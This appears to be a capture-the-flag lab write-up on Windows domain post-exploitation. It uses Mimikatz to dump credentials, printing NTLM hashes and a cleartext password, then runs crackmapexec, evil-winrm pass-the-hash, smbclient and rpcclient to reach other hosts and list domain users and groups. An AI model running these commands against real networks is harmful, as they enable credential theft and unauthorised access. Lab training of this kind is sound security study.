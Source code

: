 
Let's run Mimikatz
```
http://10.51.9.13/mimikatz/x64/
```

```
python3 -m http.server 80
```

https://book.hacktricks.xyz/windows-hardening/stealing-credentials/credentials-mimikatz

```
privilege::debug
```

```
sekurlsa::logonpasswords
```

```
Username : S-SRV01$
NTLM     : 3179c8ec65934b8d33ac9ec2a9d93400
HA1     : fb4789d7ac8f1b2a46319fcb0ae10e616bd6a399
```

```
Username : watamet
NTLM     : d8d41e6cf762a8c77776a1843d4141c9
SHA1     : 7701207008976fdd6c6be9991574e2480853312d
DPAPI    : 300d9ad961f6f680c6904ac6d0f17fd0

Username : watamet
Domain   : HOLO.LIVE
Password : Nothingtoworry!
```


![[Pasted image 20240830041056.png]]


```
crackmapexec smb 10.201.11.31 -u valid_user.txt -p Nothingtoworry!
```


```
evil-winrm -u administrator -H 3179c8ec65934b8d33ac9ec2a9d93400 -i 10.201.11.35
```


```
evil-winrm -u watamet -password Nothingtoworry! -i 10.201.11.35
```

That didn't worked but we should always try for little hanging fruits
```
rdesktop -u watamet -p Nothingtoworry! 10.201.11.30
```

Read/Write
```
crackmapexec smb 10.201.11.30 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830043757.png]]

```
smbclient \\\\10.201.11.30\\SYSVOL -U 'watamet' 
```

-p 'Nothingtoworry!'


```
crackmapexec smb 10.201.11.35 -u 'watamet' -p 'Nothingtoworry!' --shares
```
![[Pasted image 20240830044707.png]]

Finally RPC worked
```
rpcclient -U "watamet" 10.201.11.30
```

```
rpcclient $> srvinfo
        10.201.11.30   Wk Sv PDC Tim NT     
        platform_id     :       500
        os version      :       10.0
        server type     :       0x80102b

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[ad-joiner] rid:[0x457]
user:[spooks] rid:[0x45a]
user:[cryillic] rid:[0x45b]
user:[PC-MGR] rid:[0x45c]
user:[SRV-ADMIN] rid:[0x45f]
user:[a-koronei] rid:[0x462]
user:[a-fubukis] rid:[0x466]
user:[koronei] rid:[0x467]
user:[fubukis] rid:[0x468]
user:[matsurin] rid:[0x469]
user:[mikos] rid:[0x46a]
user:[okayun] rid:[0x46b]
user:[watamet] rid:[0x46c]
user:[gurag] rid:[0x46d]
user:[cocok] rid:[0x46e]
user:[ameliaw] rid:[0x46f]
user:[WEB-MGR] rid:[0x470]
```


```
rpcclient $> enumdomgroups
group:[Enterprise Read-only Domain Controllers] rid:[0x1f2]
group:[Domain Admins] rid:[0x200]
group:[Domain Users] rid:[0x201]
group:[Domain Guests] rid:[0x202]
group:[Domain Computers] rid:[0x203]
group:[Domain Controllers] rid:[0x204]
group:[Schema Admins] rid:[0x206]
group:[Enterprise Admins] rid:[0x207]
group:[Group Policy Creator Owners] rid:[0x208]
group:[Read-only Domain Controllers] rid:[0x209]
group:[Cloneable Domain Controllers] rid:[0x20a]
group:[Protected Users] rid:[0x20d]
group:[Key Admins] rid:[0x20e]
group:[Enterprise Key Admins] rid:[0x20f]
group:[DnsUpdateProxy] rid:[0x456]
```


